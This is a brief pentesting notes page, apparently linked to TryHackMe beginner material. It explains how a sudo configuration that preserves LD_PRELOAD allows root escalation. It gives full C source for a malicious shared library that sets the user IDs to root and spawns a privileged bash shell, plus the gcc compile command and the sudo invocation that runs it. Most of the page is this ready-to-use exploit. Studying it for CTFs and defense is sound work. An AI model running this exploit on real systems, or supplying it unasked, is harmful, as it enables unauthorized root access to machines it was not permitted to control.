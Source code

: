 # Exploiting LD_PRELOAD

* **author**:: Nathan Acks
* **date**:: 2021-10-31

If LD_PRELOAD is preserved by sudo, then it's possible to use a malicious dynamic library to gain root access - just run `sudo LD_PRELOAD=/path/to/malicious.so program-runnable-with-nopasswd`. Preserved environment variables are listed by `sudo -l`.

A simple malicious library (perhaps *the* simplest) that can exploit the LD_PRELOAD trick is:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Compile with:

```bash
gcc -fPIC -shared -nostartfiles \
    -o /path/to/malicious.so /path/to/malicious.c
```

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [Enumerate "sudo" Access](enumerate-sudo-access.md)

